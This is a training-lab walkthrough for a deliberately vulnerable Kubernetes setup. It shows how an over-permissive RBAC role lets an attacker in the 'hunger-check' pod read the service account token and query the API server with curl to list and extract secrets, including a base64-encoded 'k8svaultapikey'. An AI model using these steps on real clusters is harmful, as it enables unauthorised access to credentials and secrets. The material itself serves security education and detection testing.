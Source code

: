 # RBAC least privileges misconfiguration

In this scenario, we will see how simple misconfiguration like this can gain access to secrets, more resources, and information

We commonly see in the real world where developers and DevOps teams tend to provide extra privileges than required. This provides attackers more control and privileges than they intended to be. In this scenario, you can leverage the service account bound to the pod to provide webhookapikey access, but using this attacker can gain control over other secrets and resources

### Pod to work on: 
hunger-check
### Micconfiguration:
This deployment has a custom ServiceAccount mapped with an overly permissive policy/privilege. This permissions granted by an RBAC role will give the pod access to all this:

```
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  namespace: big-monolith
  name: secret-reader
rules:
- apiGroups: [""] # "" indicates the core API group
  resources: ["*"] # all the resources
  verbs: ["get", "watch", "list"]
```

As an attacker, we can leverage this to gain access to other resources and services

### The goal: Find the Kubernetes secret k8svaultapikey by exploiting the RBAC privileges to complete this scenario

Run the following command using the name of your hunger-check-pod which runs ion the big-monolith namespace

```
kubectl get pods -n big-monolith
```

```
kubectl exec -n big-monolith -it <name-of-your-hunger-check-pod> -- /bin/bash
```

This deployment has a custom ServiceAccount mapped with an overly permissive policy/privilege. As an attacker, we can leverage this to gain access to other resources and services

By default the Kubernetes stores all the tokens and service accounts information in the default place, navigate to there to find the useful information

```
cd /var/run/secrets/kubernetes.io/serviceaccount/
```

```
ls -larth
```

Now we can use this information to query and talk to the Kubernetes API service with the available permissions and privileges
lets export some variables to be used to query the API server

```
export APISERVER=https://${KUBERNETES_SERVICE_HOST}
```
```
export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
```
```
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
```
```
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
```
```
export TOKEN=$(cat ${SERVICEACCOUNT}/token)
```
```
export CACERT=${SERVICEACCOUNT}/ca.crt
```

Now we can explore the Kubernetes API with the token and the constructed queries

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api
```

To query the available secrets in the default namespace run the following command

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/secrets
```

To query the secrets specific to the namespace

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets
```

To query the pods in the specific namespace

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/pods
```

Get the k8svaulapikey value from the secrets

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets | grep k8svaultapikey 
```

We can decode the base64 encoded value using the following command

```
echo "azhzLWdvYXQtODUwNTc4NDZhODA0NmEyNWIzNWYzOGYzYTI2NDlkY2U=" | base64 -d
```

Soon you will be able to see the Defender alerts showing up in the portal

![rbac-1](/images/rbac-1.png)

![rbac-2](/images/rbac-2.png)